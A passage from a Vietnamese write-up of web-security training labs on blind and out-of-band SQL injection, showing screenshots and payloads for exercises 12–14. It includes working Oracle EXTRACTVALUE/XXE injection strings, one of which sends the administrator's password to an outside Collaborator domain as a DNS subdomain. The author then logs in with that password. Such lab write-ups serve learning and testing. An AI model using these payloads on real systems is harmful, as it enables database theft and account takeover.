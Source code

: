 ```python!
    print("pass: ", password)
```

**Kết quả**
>![](https://i.imgur.com/09GVydR.png)

>![](https://i.imgur.com/M9shOsZ.png)

<hr>

### Bài 12: Blind SQL injection with out-of-band interaction
>![](https://i.imgur.com/r8ZD7FL.png)

Đề miêu tả rằng trang web chứa lỗ hổng Blind SQLi, giá trị cookie `TrackingId` được gửi trong câu truy vấn lên database. Tuy nhiên server miễn nhiễm với time delay hay error query, vì vậy, ta cần thực hiện Out-of-Band SQLi. Mục tiêu là khiến server thực hiện 1 DNS lookup tới Burp Collaborator.
Ta dùng hàm `ExtractValue` để truy vấn các giá trị trong XML, thông qua đó gọi hàm tạo request lấy dữ liệu từ bên ngoài; Điều này sẽ vô tình gửi DNS request tới domain đích.

```sql!
UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT 1)||'.y43ftvqi6ebzth5o2ae6ke8d84eu2j.oastify.com/"> %remote;]>'),'/l') FROM dual--
```
>![](https://i.imgur.com/E6IAPhL.png)

<hr>

### Bài 13: Blind SQL injection with out-of-band data exfiltration
>![](https://i.imgur.com/JTSWKxY.png)

Bài này cũng giống bài trên, nhưng mình sẽ lấy dữ liệu từ database thay vì chỉ gửi request dns như trên. Dữ liệu sẽ được gửi trả dưới dạng subdomain trong truy vấn.

```sql!
UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.y43ftvqi6ebzth5o2ae6ke8d84eu2j.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

Kết quả thu được password như hình dưới:
>![](https://i.imgur.com/BeUXu9W.png)

Đem đăng nhập và thành công:
>![](https://i.imgur.com/GCK1t1Y.png)

<hr>

### Bài 14: SQL injection with filter bypass via XML encoding
>![](https://i.imgur.com/2Qcy3BT.png)

Mô tả: trang Web chứa lỗ hổng SQLi trong chức năng `Stock Check`, và kết quả của truy vấn sql sẽ trả về người dùng, vì vậy ta có thể dùng UNION based SQLi để khai thác và lấy tài khoản admin đăng nhập.
